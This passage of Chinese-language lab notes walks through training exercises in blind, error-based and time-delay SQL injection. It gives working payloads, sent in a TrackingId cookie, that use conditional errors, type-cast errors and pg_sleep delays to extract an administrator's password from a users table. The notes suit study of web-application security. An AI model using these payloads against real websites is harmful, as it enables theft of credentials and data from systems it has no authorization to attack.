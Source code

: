 ```sqlite
TrackingId=SLfBtZlwJyQshwRg'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>10 )||'
```

这里的注入是在判断密码长度，在FROM后面的内容为真时，才会执行前面的CASE情况，因为前面1始终等于1，所以如果执行了这个语句，就会有1/0导致网页报错，所以如果网页正常响应，证明后面的不成立，根据这个来判断密码长度

```sqlite
TrackingId=SLfBtZlwJyQshwRg'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND substr(password,§1§,1)='§a§' )||'
```

最后使用这个来爆破密码的字符串

#### 实验：基于错误的可见 SQL 注入

这个网站会将错误的详情打印出来，这个就很好发现错误

```sql
TrackingId=YvhiiGg79fKrPqN1'AND CAST((SELECT 1)as INT)--
```

这里后面的CAST是一个类型转换函数，会将这个转换为整形，查看页面返回的错误，页面需要这个后面的类型是布尔类型

```sql
TrackingId=YvhiiGg79fKrPqN1'AND 1 = CAST((SELECT 1)as INT)--
```

加个1 = 就行

```sql
TrackingId='AND 1 = CAST((SELECT username FROM users LIMIT 1 )as INT)--
```

这里一开始注入的时候发现报错，截断了我的语句，所以可能是后台有什么限制，所以把前面没什么用的给删了，后面继续发现报错直接把用户名给出来了

```
ERROR: invalid input syntax for type integer: "administrator"
```

所以直接利用这个找到密码

#### 实验：具有时间延迟的盲 SQL 注入

要求是造成10秒的延迟

```sqlite
TrackingId=FdyvhImcsSHIz3LT'||pg_sleep(10)--
```

#### 实验：具有时间延迟和信息检索的盲 SQL 注入

利用时间延迟来查询密码

```sql
TrackingId=0OMaZLwZ5zwL3ZDM'|| (SELECT CASE WHEN (username = 'administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```

如果有这个名字就会延迟10秒，同样的逻辑查看密码长度

```sql
TrackingId=0OMaZLwZ5zwL3ZDM'|| (SELECT CASE WHEN (username = 'administrator' AND LENGTH(password)=20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```
